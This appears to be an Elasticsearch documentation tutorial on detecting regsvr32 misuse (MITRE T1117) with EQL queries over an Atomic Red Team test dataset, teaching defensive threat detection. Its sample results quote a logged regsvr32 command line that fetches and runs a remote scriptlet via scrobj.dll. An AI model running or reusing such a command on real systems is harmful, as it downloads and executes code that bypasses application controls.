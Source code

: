 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

dev::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] in Windows Event Logs.
Regsvr32 misuse is a known adversary technique
documented in the https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a normalized test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset
includes events that imitate behaviors related to regsvr32 misuse, as documented
by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://github.com/endgameinc/eqllib/blob/master/data/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into the `sec_logs` index with the following
<<docs-bulk,bulk API>> request:

[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/sec_logs/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the dataset was indexed
successfully.

[source,console]
----
GET /_cat/indices/sec_logs?v&h=health,status,index,docs.count
----
// TEST[setup:sec_logs]

The API returns the following response. The `docs.count` value should show `150`
documents were indexed.

[source,txt]
----
health status index     docs.count
yellow open   sec_logs         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32.exe` events

Since you're looking for `regsvr32` misuse, start by getting a count of events
using `regsvr32.exe`.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process_name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /sec_logs/_eql/search?filter_path=-hits.events  <1>
{
  "query": """
    any where process_name == "regsvr32.exe"        <2>
  """,
  "event_category_field": "event_type",             <3>
  "timestamp_field": "timestamp",                   <4>
  "size": 150                                       <5>
}
----
// TEST[setup:sec_logs]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process_name` of `regsvr32.exe`.
<3> Sets the event category field as `event_type`.
<4> Sets the timestamp field as `timestamp`.
<5> Returns up to 150 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Your previous query matched 143 events. Many of these events are likely to be
false positives.

To narrow down the results, check if the command line was used during any of
these events. Append `and command_line > 0` to the previous EQL query. This
limits matching results to events that contain a `command_line` value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    any where process_name == "regsvr32.exe" and command_line > 0
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches one event. Based on the event's `command_line` value,
`regsvr32.exe` was used to register a script as `scrobj.dll`. This fits known
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] behavior.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 2,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
          "event_type": "process",
          "logon_id": 217055,
          "parent_process_name": "cmd.exe",
          "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
          "pid": 2012,
          "ppid": 2652,
          "process_name": "regsvr32.exe",
          "process_path": "C:\\Windows\\System32\\regsvr32.exe",
          "subtype": "create",
          "timestamp": 131883573237130000,
          "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
          "unique_ppid": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
          "user": "ART-DESKTOP\\bob",
          "user_domain": "ART-DESKTOP",
          "user_name": "bob"
        },
        "sort": [
          131883573237130000
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 2/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that `regsvr32.exe` was used to register
a potentially malicious script as `scrob.dll`. Next, find any processes that
later load the `scrob.dll` file.

Modify the previous EQL query as follows:

* Change the `any` keyword to `image_load`. This means the query only matches
events with an `event_type` of `image_load`.
* Add the `image_name == "scrobj.dll` condition to check for image loads of
`scrobj.dll`.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    image_load where process_name == "regsvr32.exe" and image_name == "scrobj.dll"
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches an event, confirming that `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "event_type": "image_load",
          "image_name": "scrobj.dll",
          "image_path": "C:\\Windows\\System32\\scrobj.dll",
          "pid": 2012,
          "process_name": "regsvr32.exe",
          "process_path": "C:\\Windows\\System32\\regsvr32.exe",
          "timestamp": 131883573237450016,
          "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}"
        },
        "sort": [
          131883573237450016
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to download other remote files. If
this occurred, the attack progressed and might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events:

* A `regsvr32.exe` process, which could have be used to register malicious
scripts as `scrobj.dll`
* An image load of the `scrobj.dll` file
* Any network event, which could indicate the download of a remote file

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    sequence
      [process where process_name == 'regsvr32.exe']
      [image_load where image_name == 'scrobj.dll']
      [network where true]
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]

The request returns the following response with a matching sequence, indicating
the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "events": [
          {
            "_index": "sec_logs",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
              "event_type": "process",
              "logon_id": 217055,
              "parent_process_name": "cmd.exe",
              "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
              "pid": 2012,
              "ppid": 2652,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "subtype": "create",
              "timestamp": 131883573237130000,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
              "unique_ppid": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "user": "ART-DESKTOP\\bob",
              "user_domain": "ART-DESKTOP",
              "user_name": "bob"
            },
            "sort": [
              131883573237130000
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "event_type": "image_load",
              "image_name": "scrobj.dll",
              "image_path": "C:\\Windows\\System32\\scrobj.dll",
              "pid": 2012,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "timestamp": 131883573237450016,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}"
            },
            "sort": [
              131883573237450016
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_score": null,
            "_source": {
              "destination_address": "151.101.48.133",
              "destination_port": "443",
              "event_type": "network",
              "pid": 2012,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "protocol": "tcp",
              "source_address": "192.168.162.134",
              "source_port": "50505",
              "subtype": "outgoing",
              "timestamp": 131883573238680000,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
              "user": "ART-DESKTOP\\bob",
              "user_domain": "ART-DESKTOP",
              "user_name": "bob"
            },
            "sort": [
              131883573238680000
            ]
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
